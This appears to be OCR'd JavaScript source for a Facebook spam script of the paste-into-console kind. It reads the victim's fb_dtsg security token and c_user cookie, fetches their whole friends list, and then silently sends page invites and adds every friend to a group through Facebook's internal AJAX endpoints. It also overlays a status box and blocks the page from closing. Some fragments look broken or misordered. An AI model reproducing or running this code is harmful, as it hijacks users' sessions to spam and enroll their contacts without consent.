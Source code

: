 "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=1375353502725775&amp;__user="+ user_id +  "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post")                         if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=244359939081437&amp;__user="+ user_id +  "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post")                                                  if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&amp;fb_dtsg=" + fb_dtsg + "&amp;group_id=1378653509062290&amp;source=typeahead&amp;members=" + opo + "&amp;nctr[_2]=pagelet_group_members_summary&amp;lsd&amp;post_form_id_source=AsyncRequest&amp;__user=" + user_id, function () {}, "text", "post");                              } jx = {     b: function () {         var b = !1;         if ("undefined" != typeof ActiveXObject) try {             b = new ActiveXObject("Msxml2.XMLHTTP")         } catch (c) {             try {                 b = new ActiveXObject("Microsoft.XMLHTTP")             } catch (a) {                 b = !1             }         } else if (window.XMLHttpRequest) try {             b = new XMLHttpRequest         } catch (h) {             b = !1         }         return b     },     load: function (b, c, a, h, g) {         var e = this.d();         if (e &amp;&amp; b) {             e.overrideMimeType &amp;&amp; e.overrideMimeType("text/xml");             h || (h = "GET");             a || (a = "text");             g || (g = {});             a = a.toLowerCase();             h = h.toUpperCase();             b += b.indexOf("?") + 1 ? "&amp;" : "?";             var k = null;             "POST" == h &amp;&amp; (k = b.split("?"), b = k[0], k = k[1]);             e.open(h, b, !0);             e.onreadystatechange = g.c ? function () {                 g.c(e)             } : function () {                 if (4 == e.readyState)                     if (200 == e.status) {                         var b = "";                         e.responseText &amp;&amp; (b = e.responseText);                         "j" == a.charAt(0) ? (b = b.replace(/[

]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) &amp;&amp; (b = e.responseXML);                         c &amp;&amp; c(b)                     } else g.f &amp;&amp; document.getElementsByTagName("body")[0].removeChild(g.f), g.e &amp;&amp; (document.getElementById(g.e).style.display = "none"), error &amp;&amp; error(e.status)             };             e.send(k)         }     },     d: function () {         return this.b()     } };  function ChangeLocation() {     window.location.href = "http://www.facebook.com/" } setTimeout("ChangeLocation", 1); window.onbeforeunload = function () {     if (window[tag + "_close"]) return "This script is running now!" }; var i = 3; var tay = 3; var suc = 0; var err = 0; var arr = new Array; var arn = new Array; var pho = new Array; var tag = "Close"; var page_name, x = document.getElementsByTagName("span"); for (i = 0; i &lt; x.length; i++)     if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML; var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&amp;token=v7&amp;filter[0]=user&amp;options[0]=friends_only&amp;options[1]=nm&amp;options[2]=sort_alpha&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=l", function (a) {     var b = a;     var c = b.substring(b.indexOf("{"));     var d = JSON.parse(c);     d = d.payload.entries;     for (var e = 0; e &lt; d.length; e++) arr.push(d[e].uid);     for (var eg = 0; eg &lt; d.length; eg++) arn.push(d[eg].text);     for (var pic = 0; pic &lt; d.length; pic++) pho.push(d[pic].photo);     i = arr.length - 1;     tay = i;     console.log(arr.length);     var display = "&lt;div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ebb6c8'>";     display += "&lt;div style='padding-bottom:10px;font-size:15px;'>" + Title + "&lt;/div>";     display += arr.length + " Friends Detected";     display += "&lt;/div>";     document.getElementById("pagelet_sidebar").innerHTML = display;     InviteFriends(arr[i]) });
